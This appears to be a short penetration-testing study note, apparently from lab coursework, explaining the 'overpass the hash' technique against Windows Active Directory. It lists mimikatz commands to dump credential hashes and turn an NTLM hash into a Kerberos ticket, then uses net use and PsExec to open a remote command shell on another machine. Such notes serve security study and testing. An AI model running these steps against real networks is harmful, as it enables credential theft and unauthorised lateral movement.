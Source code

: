 # Overpass the Hash

With [_overpass the hash_](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf), we can "over" abuse an NTLM user hash to gain a full Kerberos [_Ticket Granting Ticket_](https://learn.microsoft.com/en-us/windows/win32/secauthn/ticket-granting-tickets) (TGT). Then we can use the TGT to obtain a [_Ticket Granting Service_](https://learn.microsoft.com/en-us/windows/win32/secauthn/ticket-granting-service-exchange) (TGS).

1. use mimikatz to dump password hash

```shell
sekurlsa::logonpasswords
```

2. Use mimikatz to turn the NLTM hash into a kerberos ticket

{% code overflow="wrap" %}
```shell
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```
{% endcode %}

3. list the cached kerberos ticket

```powershell
klist
```

* no tickets may be listed which is expected if the user has not performed an interactive login

4. Generate TGT by authenticating to a network share

```
net use \\files04
```

List ticket with klist

5. User psexec to launch cmd remotely on the machine

```
.\PsExec.exe \\files04 cmd
```

